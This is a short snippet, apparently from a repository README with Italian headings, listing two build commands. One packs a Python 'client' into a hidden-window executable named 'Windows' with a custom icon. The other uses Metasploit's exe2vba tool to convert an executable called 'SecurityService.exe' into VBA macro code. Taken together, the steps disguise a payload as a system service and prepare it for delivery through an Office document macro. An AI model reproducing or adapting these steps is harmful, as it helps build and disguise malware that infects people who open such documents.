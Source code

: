 # Creazione EXE

pyinstaller .\client.py --onefile --noconsole -i='.\icon.ico' --name "Windows"

# Creazione VBA

usr/share/metasploit-framework/tools/exploit/exe2vba.rb Desktop/SecurityService.exe Desktop/SecurityService.vba
